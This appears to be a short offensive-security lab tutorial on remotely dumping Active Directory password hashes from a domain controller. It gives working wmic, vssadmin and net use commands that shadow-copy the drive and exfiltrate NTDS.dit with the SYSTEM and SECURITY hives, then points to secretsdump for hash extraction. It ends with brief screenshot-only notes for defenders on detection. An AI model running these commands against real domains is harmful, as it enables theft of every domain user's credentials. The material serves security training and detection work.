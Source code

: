 # Dumping Domain Controller Hashes via wmic and Vssadmin Shadow Copy

This quick labs hows how to dump all user hashes from the DC by creating a shadow copy of the C drive using vssadmin - remotely.

This lab assumes the attacker has already gained administratrative access to the domain controller.

## Execution

Create a shadow copy of the C drive of the Domain Controller:

{% code title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-23-213609.png)

Copy the NTDS.dit, SYSTEM and SECURITY hives to C:\temp on the DC01:

{% code title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```
{% endcode %}

Below shows the above command executed on the attacking machine (right) and the files being dumped to c:\temp on the DC01 on the left:

![](../../.gitbook/assets/dc-dump.gif)

Mount the DC01\c$\temp locally in order to retrieve the dumped files:

{% code title="attacker@victim" %}
```csharp
net use j: \\dc01\c$\temp /user:administrator 123456; dir j:\
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-23-222654.png)

Now, of you go extracting hashes with secretsdump as shown here:

{% content-ref url="ntds.dit-enumeration.md" %}
[ntds.dit-enumeration.md](ntds.dit-enumeration.md)
{% endcontent-ref %}

## Observations

A quick note for defenders on the proces ancestry:

![](../../.gitbook/assets/annotation-2019-05-23-213352.png)

and of course commandlines:

![](../../.gitbook/assets/annotation-2019-05-23-223432.png)

as well as service states:

![](../../.gitbook/assets/annotation-2019-05-23-223157.png)

...and of course the lateral movement piece:

![](<../../.gitbook/assets/Annotation 2019-05-23 230027 (1).png>)

## References

[https://twitter.com/netmux/status/1123936748000690178?s=12](https://twitter.com/netmux/status/1123936748000690178?s=12)
